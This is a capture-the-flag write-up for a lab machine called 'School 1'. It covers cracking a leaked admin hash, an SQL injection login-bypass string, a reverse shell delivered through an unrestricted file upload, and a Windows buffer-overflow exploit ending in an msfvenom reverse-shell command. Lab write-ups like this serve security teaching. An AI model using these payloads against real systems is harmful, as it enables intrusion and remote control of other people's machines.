# [School 1]

**Category:** [Binary Exploitation/Web Exploitation]  
**Difficulty:** [Hard]

## Approach

I first started with a simple enumeration of all services on the machine. This gave me an initial analysis of the possible attack vectors, in this case an ssh, telnet and http services in ports 22, 23 and 80, respectively.



After some browsing of the vulnerabilities available for these services, either none appeared or were they useful for the problem at hand. Not an issue! We move onwards to the telnet service that seems to be displaying some unusual content:


Since we have no knowledge right now about a possible code to use we will keep this in mind and move to the next service, the http website.

To start, we start enumerating directories and files from the website to see possible attack vectors that we may use. Having done so, I found a very interesting directory: [**student_attendance/database**]



It contains an .sql file that fortunely for us has the entire configuration and data for the SQL database the web service uses! THis includes the users and their hashes:


Having the hash we can try and crack it using common tools like hashcat, john or any online hash crack service that exists like [crackstation](https://crackstation.net/).

### Hashcat



### John The Ripper


### Crackstation


***\<NOTE>***

Hindsight is 20/20 as per usual. This approach is one of the ways you could've logged on to the website with the admin, the other was a simple SQLI with [OR '1'='1' limit 1-- -] or brute forcing. But hey! If you followed the first approach then you decided to be more thorough with your enumeration, good on ya!


***\<NOTE/>***

We found the password! **admin:admin123**
With that in mind, we can go on to the website and login on the homepage, giving us access to the admin dashboard:



Analyzing the dashboard doesn't show us any functionality that would give us any kind of attack, so let's try to analyze the source code of the dashboard. Lo' and behold:


We have a commented page that seems to allow us to change the system's settings! Once we visit it we find some configurations that can be changed **INCLUDING** its Images/image thanks to a file upload function.


As with any file upload function we test its limits and we find it it has zero, meaning we can upload a reverse shell and easily get in to the machine! It even helps us by telling us where it's stored!



Which leads us to:



RCE with a reverse using Weevely. After quickly getting one of the flags at the home directory of a user fox, we now are faced with the challenge of using some technique of privilege escalation in order to get to root and get the last flag. 

It seems we can access the root directory with the flag file and a file calling a windows application called access.exe, which might be the application running on port 23!



The directory has the file and a .dll file! We can't analyze the files as is so I decided to transfer them and start checking their binary code and decompile it possibly.

### Binary of the Application



From what we could extract we seem to be dealing with vulnerable software, especially related to buffer overflows, hence the "Starting Vulnerable Software! (BOF)"

This is a great sign which could be related to the supposed Verification Code we need to send... or not (In the industry we call this foreshadowing).

We now move on to the decompiled code, which will give us more information on how our input is handled.

### Decompiled Code of the Application


After some researching we find the section of the code that handles our input. All of this information is important for later use, specifically the characters that are being sanitized by the input, or better known as, the **bad characters**.

***\<NOTE>***

This is one of the ways someone can find the bad characters but I will also show another more efficient way that will work as a check to see if indeed these are all of them or if there are more.

***\<NOTE/>***


This section of the code that is called after the shown excerpt is the reason this code is BOF vulnerable. SInce the input is given a space of around 2900 bytes but the function copies the sanitized input to a buffer of max size 1898, which allows us to overwrite the bytes in the stack and instruction pointers, essentially giving us RCE once done.

### Exploitation

To start, we should find the exact amount of bytes needed to reach the overflow of the Instruction Pointer of the application once its running.
To do so, I used Immunity Debugger to analyze the reaction from the application and used small python scripts to send my data.


As we can see, after sending 1902 bytes (in this case A's) followed by 4 additional reference bytes (in this case B's to more easily differentiate between both sets) we can change the bytes being held by the Instruction Pointer.

This is a very good step in the rigth direction since it now gives us the possibility of making the application point to a specific memory address of a code we want to run, most likely a reverse shell at this point.

The next step is to find the bad characters (the characters that the application accepts as input and that might disrupt the bytes we will send later for our RCE). As it stands we have discovered 6 through the rummaging we did of the application's code:

```
[ M ] = \x4d
[ O ] = \x4f
[ _ ] = \x5f
[ y ] = \x79
[ ~ ] = \x7e
[DEL] = \x7f
```

With the following method we will find out if there are more than these and check those we already have.

By sending the bytes of every single possible ascii character as an input to the application, we get to see the reaction of the application to these characters. Once the application finds a certain character that is meant to be sanitized, it will clear that character with '\xb0' and terminate the input. 

This means we can repeat this process until we have a clear input when checking the data in the memory of the application:


After doing this process I was able to successfully double check that the bad characters are indeed those we had already found. The second phase of the exploit is done, now we pass onto the last phase of our attack, finding out if the module is vulnerable and if we can exploit it for our own interest!

For this effect, I used mona to analyze the module and, indeed, it is vulnerable, as it lacks memory protection:



After finding the address in the memory of the library that the application uses for a ```JMP ESP``` command that we can use we are able to find to addresses:



With this in our hands, all the pieces of the exploit are ready to be used, and be able to give us the access we need to the application. So, now we create a shellcode with the help of ```msfvenom```:

```
msfvenom -p windows/shell_reverse_tcp LHOST=[Our IP] LPORT=[Our Port] EXITFUNC=thread -f c -a x86 -b "\x00\x4d\x4f\x5f\x79\x7e\x7f"
```

This command creates a byte encoded reverse shell without the bad chars we found before, allowing us to send this data to the application and letting us receive a communication back, with root permissions, since the application is owned by root.

Running this command and having a listener close by will allow us to communicate with the target machine and get the last flag:



Done!